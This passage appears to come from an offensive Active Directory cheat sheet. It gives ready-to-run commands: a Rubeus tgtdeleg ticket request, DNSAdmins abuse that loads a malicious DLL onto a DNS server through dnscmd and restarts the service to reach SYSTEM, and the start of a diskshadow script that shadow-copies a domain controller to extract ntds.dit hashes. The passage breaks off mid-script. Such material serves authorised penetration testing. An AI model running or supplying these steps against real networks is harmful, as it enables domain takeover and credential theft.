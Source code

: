 ```powershell
#Command on Rubeus
Rubeus.exe tgtdeleg /nowrap
```

⧉ Copied!

Detailed Article:
[Rubeus – Now With More Kekeo](https://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)

### DNSAdmins Abuse

*WUT IS DIS ?: If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work.*

1.  Enumerate the members of the DNSAdmins group:
    
    - PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
    - AD Module: `Get-ADGroupMember -Identiny DNSAdmins`
2.  Once we found a member of this group we need to compromise it (There are many ways).
    
3.  Then by serving a malicious DLL on a SMB share and configuring the dll usage,we can escalate our privileges:
    
    ```powershell
    #Using dnscmd:
    dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll
    
    #Restart the DNS Service:
    sc \\DNSServer stop dns
    sc \\DNSServer start dns
    ```
    
    ⧉ Copied!
    

### Abusing Active Directory-Integraded DNS

- [Exploiting Active Directory-Integrated DNS](https://blog.netspi.com/exploiting-adidns/)
- [ADIDNS Revisited](https://blog.netspi.com/adidns-revisited/)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)

### Abusing Backup Operators Group

*WUT IS DIS ?: If we manage to compromise a user account that is member of the Backup Operators
group, we can then abuse it's SeBackupPrivilege to create a shadow copy of the current state of the DC,
extract the ntds.dit database file, dump the hashes and escalate our privileges to DA.*

1.  Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:
    
    ```powershell
    #Create a .txt file that will contain the shadow copy process script
    Script ->{
    set context persistent nowriters
    set metadata c:\windows\system32\spool\drivers\color\example.cab
    set verbose on
    begin backup
    add volume c: alias mydrive
    